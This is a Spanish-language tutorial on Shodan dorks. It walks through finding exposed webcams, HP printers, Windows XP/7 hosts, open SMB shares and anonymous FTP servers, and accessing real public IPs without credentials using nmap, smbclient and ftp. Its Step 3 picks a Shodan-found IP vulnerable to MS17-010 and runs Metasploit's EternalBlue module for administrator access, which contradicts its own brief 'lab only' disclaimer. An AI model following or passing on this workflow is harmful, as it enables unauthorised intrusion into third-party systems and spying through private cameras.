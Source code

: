
## Introducción: ¿Qué es Shodan?

¡Hola a todos! Hoy vamos a sumergirnos en **Shodan**, una herramienta increíblemente potente que funciona como un motor de búsqueda para dispositivos conectados a internet. Con Shodan puedes encontrar desde **webcams sin protección**, pasando por **servidores**, hasta **ordenadores con sistemas vulnerables**. Básicamente, cualquier cosa con una IP pública y puertos abiertos puede aparecer aquí.

En esta guía te voy a mostrar:
1. **Búsquedas básicas** en Shodan.
2. **Dorks avanzados** para filtrar resultados específicos.
3. Cómo encontrar **sistemas vulnerables** (como Windows XP o 7).
4. Ejemplos prácticos de **webcams e impresoras** accesibles.

Así que, ¡vamos a ello!

---

## Paso 1: Primeros Pasos en Shodan
### Acceso a la Plataforma
- **URL**: [shodan.io](https://www.shodan.io/)
- Lo ideal es crear una cuenta o iniciar sesión (por ejemplo, con Google) para aprovechar al máximo las funcionalidades.
- Una vez dentro, verás un buscador simple en la interfaz.

### Búsqueda Básica: Webcams
Imagina que queremos encontrar **webcams conectadas a internet**. En el buscador, escribe:

```
webcam
```

- **Resultado**: Shodan te mostrará webcams de todo el mundo. Algunas requieren autenticación, pero otras no.
- **Ejemplo práctico**:
  - Una webcam en Japón grabando una calle en tiempo real (puerto 8889).
  - Otra en EE.UU. enfocando un periquito en una jaula.

**Filtro por País**: Si quiero webcams solo en España:
1. Haz clic en "More" (Más opciones).
2. Añade el filtro: `country:ES`.
3. Resultado: Lista reducida de webcams españolas, algunas protegidas y otras abiertas.

---

## Paso 2: Usando Dorks para Búsquedas Avanzadas

Un **dork** es una consulta específica que filtra resultados en Shodan. Vamos con ejemplos claros:

### Dork 1: Webcams con Software Específico

- **Query**: `webcamxp`
- **Explicación**: Busca webcams que usen el software **WebcamXP**, conocido por tener muchas instancias sin contraseña.
- **Ejemplo**:
  - Encuentras una webcam en EE.UU. (puerto 8080) que muestra una calle oscura (porque allá es de noche).
  - Otra en una oficina, accesible por el puerto 80 o 3478.
- **Dato extra**: Puedes verificar los puertos abiertos con herramientas como `nmap`, pero Shodan ya te los lista:
  - Comando: `sudo nmap -p 3478,8080,8090 <IP>`
  - Resultado: Confirma que esos puertos están abiertos.

### Dork 2: Sistemas Operativos Obsoletos

- **Query**: `os:Windows XP`
- **Explicación**: Encuentra dispositivos con Windows XP, un sistema obsoleto y vulnerable (por ejemplo, a **EternalBlue**).
- **Ejemplo**:
  - Una máquina XP con el puerto 445 abierto, marcada como "vulnerable a MS17-010" (EternalBlue).
  - Shodan incluso muestra recursos compartidos accesibles sin autenticación.
- **Por qué importa**: Estos sistemas son un riesgo si están expuestos en la red.

- **Variación**: `os:Windows 7`
  - Similar a XP, muchos son vulnerables a EternalBlue. Algunos resultados incluyen capturas de pantalla de la pantalla de login.

### Dork 3: Webcams con Software JCam

- **Query**: `server:jcam`
- **Explicación**: Busca webcams que usen el software JCam, frecuentemente sin protección.
- **Ejemplo**:
  - Una webcam en una fábrica industrial.
  - Otra enfocando un garaje.

### Dork 4: Impresoras HP

- **Query**: `HP printer`
- **Explicación**: Localiza impresoras HP conectadas a internet.
- **Ejemplo**:
  - Una impresora accesible por su IP pública. Algunas piden autenticación, otras no.

### Dork 5: Recursos Compartidos sin Autenticación

- **Query**: `port:445 -authentication`
- **Explicación**: Busca equipos con el puerto 445 (SMB) abierto y sin protección.
- **Ejemplo**:
  - Una IP en India con recursos compartidos visibles.
  - Prueba: Con `smbclient -L <IP>` en Kali Linux, listas los recursos sin contraseña.

### Dork 6: FTP Anónimo

- **Query**: `port:21 anonymous`
- **Explicación**: Encuentra servidores FTP que permitan acceso anónimo.
- **Ejemplo**:
  - IP con `vsftpd` (versión 3.0.2). Conexión:

    ```
    ftp <IP>
    Usuario: anonymous
    Contraseña: [en blanco]
    ```
    
  - Resultado: Acceso al contenido del servidor FTP (en este caso, vacío, pero funcional).

---

## Paso 3: Explotación de Vulnerabilidades (Ejemplo Educativo)

**Nota**: Esto se hace solo en entornos de laboratorio controlados, ¡nunca en la red real sin permiso!

### Caso: Máquina Windows 7 + EternalBlue

- **Herramienta**: Metasploit
- **Pasos**:
  1. Busca en Shodan: `os:Windows 7 port:445`.
  2. Encuentras una IP marcada como "vulnerable a MS17-010".
  3. En Metasploit:

     ```
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOST <IP>
     run
     ```
     
  4. Resultado: Acceso como administrador sin credenciales.

- **Por qué funciona**: El puerto 445 en versiones antiguas de Windows tiene fallos explotables.

---

## Paso 4: Consejos y Advertencias

- **Ética**: No escanees ni accedas a dispositivos sin permiso. Shodan recopila datos públicos, pero actuar sobre ellos puede ser ilegal.
- **Seguridad**: Si tienes dispositivos en la red, ¡protégelos! Usa contraseñas fuertes y actualiza el software.

---
